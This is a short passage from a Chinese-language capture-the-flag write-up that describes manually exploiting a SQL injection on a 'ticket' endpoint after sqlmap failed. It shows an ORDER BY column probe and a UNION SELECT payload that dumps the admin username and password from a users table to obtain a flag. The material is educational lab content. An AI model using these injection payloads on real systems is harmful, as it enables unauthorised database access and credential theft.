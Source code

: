 [![](https://p3.ssl.qhimg.com/t014cb44b162e770c1c.gif)](https://p3.ssl.qhimg.com/t014cb44b162e770c1c.gif)

接下来，别忘了这里还有个sql注入漏洞，不过很奇怪，sqlmap居然跑不出来（如果有那位童鞋跑出来了可以和我说下)，所以只好手动注入，下面是过程：

```
http://xx.xx.xx.xx/xxx/ticket?id=1 order by 3 -- //判断为3列
http://xx.xx.xx.xx/xxx/ticker?id=10 union select id,username,password from users where username='admin' -- //表名和列名都是猜的｡ﾟ(ﾟ´ω`ﾟ)ﾟ｡很奇怪information_schema中居然查不到表名
```

结果显示，admin用户的密码就是第二个Flag：

[![](https://p5.ssl.qhimg.com/t015b209e144ec669c7.gif)](https://p5.ssl.qhimg.com/t015b209e144ec669c7.gif)
